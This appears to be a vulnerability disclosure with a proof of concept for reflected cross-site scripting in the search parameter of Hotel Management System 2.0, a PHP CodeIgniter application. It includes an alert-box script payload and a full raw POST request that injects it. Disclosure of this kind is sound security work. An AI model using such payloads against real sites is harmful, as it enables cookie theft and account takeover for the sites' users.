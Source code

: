 #### Title: Hotel Management System 2.0 Reflected Cross-Site Scripting
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 03.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-codeigniter-hotel-management-system-source-code
#### Version: 2.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Refelected)/POC.md

#### Description：
#### Hotel Management System is vulnerable to Reflected cross-site scripting on the search parameter.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.

#### Payload used:
`"><script>alert("XSS")</script>`

### POC

```
POST /ci_hms/search HTTP/1.1
Host: localhost
Content-Length: 11
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/ci_hms/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: ci_session=9kn2p06ccqlaaf2fft0qpgso3qdgj7j1
Connection: close

customer="><script>alert("XSS")</script>
```

![image](https://github.com/CyberThoth/CVE/blob/19d02bfc410f0a57bf3dabb23bc7f31a18e0e07f/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Refelected)/1.png)

![image](https://github.com/CyberThoth/CVE/blob/19d02bfc410f0a57bf3dabb23bc7f31a18e0e07f/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Refelected)/2.png)
